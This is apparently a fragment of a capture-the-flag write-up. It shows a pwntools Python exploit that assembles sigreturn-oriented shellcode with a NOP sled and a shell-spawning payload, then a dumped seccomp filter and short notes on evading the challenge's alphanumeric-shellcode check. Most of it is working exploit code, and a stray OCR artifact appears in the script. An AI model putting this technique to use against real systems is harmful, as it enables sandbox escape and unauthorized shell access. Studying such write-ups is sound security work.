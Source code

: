 ```python

# Delete shellcode
p.sendlineafter("> ", "2")

# Overwrite chunks
p.sendlineafter(">", "1")

frame = SigreturnFrame(kernel='amd64')
frame.rip = 0x1337
frame.rsp = 0x1338

shellcode = ""
shellcode += asm("push 0x3337")
for f in unpack_many(str(frame))[::-1]:

    if f == 0x1337:
        shellcode += asm("add rdx, 0x200; push rdx")
    elif f == 0x1338:
        shellcode += asm("push rsp")
    else:
        shellcode += asm("push {}".format(f))

shellcode += asm("""
    mov rax, 231
    syscall
""")

shellcode = shellcode.ljust(0x200, "\x90")
shellcode += asm(shellcraft.amd64.sh())
?
print hexdump(shellcode)

p.sendlineafter("Enter url: ", shellcode)

pause()

p.sendlineafter("> ", "3")

p.interactive()
```    
the challenge gives the impression that we have to do an alphanumeric shellcode, but we can bypass it and put the shellcode we want    
Seccomp rules looks like this:     
```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x00000000  if (A == read) goto 0012
 0006: 0x15 0x05 0x00 0x00000001  if (A == write) goto 0012
 0007: 0x15 0x04 0x00 0x00000009  if (A == mmap) goto 0012
 0008: 0x15 0x03 0x00 0x0000000b  if (A == munmap) goto 0012
 0009: 0x15 0x02 0x00 0x0000000f  if (A == rt_sigreturn) goto 0012
 0010: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0012
 0011: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```    
and we can read/write/mmap/munmap/rt_sigreturn/exit/exit_group     
